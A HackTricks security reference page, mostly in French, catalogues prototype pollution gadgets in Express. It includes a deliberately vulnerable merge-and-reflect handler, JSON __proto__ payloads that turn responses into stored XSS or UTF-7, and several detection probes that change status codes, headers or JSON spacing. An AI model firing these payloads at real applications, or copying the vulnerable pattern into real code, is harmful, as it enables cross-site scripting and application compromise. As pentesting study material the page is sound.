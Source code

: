 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**Pour plus de détails** [**jetez un œil à la recherche originale**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

Dans une application Express utilisant un **type de contenu JSON** et reflétant un JSON :
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
Dans ces cas, le XSS n'est normalement pas possible avec un type de contenu JSON. Cependant, avec la pollution de prototype, nous pouvons **confondre Express pour servir une réponse HTML.** Cette vulnérabilité repose sur l'application utilisant **`res.send(obj)`** et utilisant le parseur de corps avec le type de contenu application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
En **polluant** les propriétés **`body`** et **`_body`**, il est possible de faire en sorte qu'**Express serve le type de contenu HTML** et reflète la propriété `_body`, entraînant un XSS stocké.

### Rendre UTF7

Il est possible de faire en sorte qu'Express **rende le contenu UTF-7 avec** :
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Techniques de scan sûres

### Espaces JSON

Le PP suivant ajoutera un espace supplémentaire aux attributs à l'intérieur d'un JSON, ce qui ne perturbera pas la fonctionnalité :
```json
{"__proto__":{"json spaces": " "}}
```
Alors, un JSON réfléchi ressemblera à :
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Le gadget PP suivant fera en sorte que le serveur renvoie l'en-tête HTTP : **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Il est nécessaire que le **module CORS soit installé**

### **Méthode OPTIONS**

Avec le payload suivant, il est possible de **cacher une méthode d'une réponse OPTIONS** :
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Statut**

Il est possible de changer le **code de statut retourné** en utilisant le payload PP suivant :
```json
{"__proto__":{"status":510}}
```
### Erreur

Lorsque vous assignez à un prototype avec un primitif tel qu'une chaîne, cela produit une **opération no-op car le prototype doit être un objet**. Si vous essayez d'assigner un objet prototype à `Object.prototype` lui-même, cela **lancera une exception**. Nous pouvons utiliser ces deux comportements pour **détecter si la pollution du prototype a réussi** :
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Valeur Réfléchie

Lorsque une application inclut un objet dans sa réponse, créer un attribut avec un **nom inhabituel en plus de `__proto__`** peut être révélateur. Spécifiquement, si **seul l'attribut inhabituel est renvoyé** dans la réponse, cela pourrait indiquer la vulnérabilité de l'application :
```json
{"unusualName":"value","__proto__":"test"}
```
De plus, dans des scénarios où une bibliothèque comme Lodash est utilisée, définir une propriété à la fois via la pollution de prototype (PP) et directement à l'intérieur de l'objet offre une autre approche de diagnostic. Si une telle propriété est omise de la réponse, cela suggère que Lodash vérifie l'existence de la propriété dans l'objet cible avant de fusionner :
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Divers

### Autoriser les points

Il existe une option dans Express qui vous permet de **créer des objets à partir des paramètres de la chaîne de requête**.\
Vous pourriez certainement l'utiliser dans une **chaîne** de bogues pour exploiter une **vulnérabilité de pollution de prototype**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` crée un objet dans Node.**

## Références

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
